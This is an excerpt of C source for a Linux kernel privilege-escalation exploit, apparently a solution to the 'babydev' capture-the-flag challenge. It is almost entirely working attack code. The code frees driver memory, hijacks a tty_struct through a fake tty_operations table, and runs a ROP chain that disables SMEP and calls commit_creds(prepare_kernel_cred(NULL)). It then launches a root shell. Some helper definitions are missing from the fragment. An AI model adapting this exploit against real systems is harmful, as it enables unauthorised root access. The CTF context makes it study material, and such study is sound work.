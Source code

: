 ```c
	void* (*prepare_kernel_credp)(void*) = prepare_kernel_cred;
	int (*commit_credsp)(void*) = commit_creds;
	(*commit_credsp)((*prepare_kernel_credp)(NULL));
	// printf("\033[32m\033[1m[+] commit_creds(prepare_kernel_cred(NULL)) executed.\033[0m\n");
}

void shell(){
	// if(getuid()){
	// 	printf("\033[31m\033[1m[x] Error: Failed to get root, exiting......\n\033[0m");
	// 	exit(1);
	// }
	// printf("\033[32m\033[1m[+] Congratulations! root got......\033[0m\n");
	system("/bin/sh");
	exit(0);
}

int main(){
	saveStatus();
	
	unsigned long long rop[0x20] = {0};
	int idx = 0;
	rop[idx++] = poprdi_ret;			// mov rdi, 6f0h
	rop[idx++] = 0x6f0;
	rop[idx++] = movcr4rdi_poprbp_ret;	// close SMEP
	rop[idx++] = 0;						// for pop rbp
	rop[idx++] = rise_cred;
	rop[idx++] = swapgs_poprbp_ret;		// ready to return to user mode
	rop[idx++] = 0;
	rop[idx++] = 0xffffffff814e35ef;
	rop[idx++] = shell;
	rop[idx++] = user_cs;
	rop[idx++] = user_rflags;
	rop[idx++] = user_sp;
	rop[idx++] = user_ss;
	
	unsigned long long fake_tty_struct[0x20];

	for(int i=0; i<0x10; i++)
		fake_tty_operations[i] = movrsprax_decebx_ret;
	fake_tty_operations[0] = poprax_ret;
	fake_tty_operations[1] = (unsigned long long)rop;
		
	int f1 = open("/dev/babydev", 2);
	int f2 = open("/dev/babydev", 2);
	ioctl(f1, 0x10001, 0x2e0);
	close(f1);
	
	int f3 = open("/dev/ptmx", 2|O_NOCTTY);
	
	read(f2, fake_tty_struct, 0x20);
	
	fake_tty_struct[3] = (unsigned long long)fake_tty_operations;		// change the tty_operations pointer to our fake pointer
	
	char buf[0x8] = {0};
	write(f2, fake_tty_struct, 0x20);
	
	write(f3, buf, 8);
	return 0;
}
```
